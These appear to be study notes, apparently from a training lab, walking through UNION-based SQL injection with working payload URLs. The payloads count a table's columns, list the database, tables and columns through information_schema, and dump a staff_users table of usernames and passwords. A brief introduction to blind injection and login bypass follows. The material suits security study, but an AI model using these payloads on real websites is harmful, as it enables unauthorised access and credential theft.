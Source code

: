 `http://URL/article?id=2 UNION SELECT 1,2` --> same error

`http://URL/article?id=2 UNION SELECT 1,2,3` --> no error --> so we need to provide 3 columns

### 2. display SQL output in browser
often websites display only the first entry
--> because id 2 is existing it is displaying us the entry with id=2
----> we can use e.g. 0 instead because 0 is not an existing id, so that the web app displays our SQL output:
`http://URL/article?id=0 UNION SELECT 1,2,3`


### 3. getting database name

`http://URL/article?id=0 UNION SELECT 1,2,database()`
output: `sqli_one`

### 4. getting all table names

`http://URL/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`
output: `article,staff_users`

`group_concat` gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas, because the web app is displaying only one result in this example

### 5. getting table columns

`http://URL/article?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`
output: `id,username,password`


### 6. getting table content

`http://URL/article?id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`
output: 
```
admin:p4ssword  
martin:pa$$word  
jim:work123
```

`:` and `<br>` for better readability




# Blind SQL Injection
- just a little to no feedback to confirm whether our injected queries were successful or not, because the error messages have been disabled, but the injection still works

## Authentication Bypass Blind
- most straightforward Blind SQL Injection techniques
- bypassing authentication methods such as login forms
- not interested in retrieving data from the database, just want to get past the login

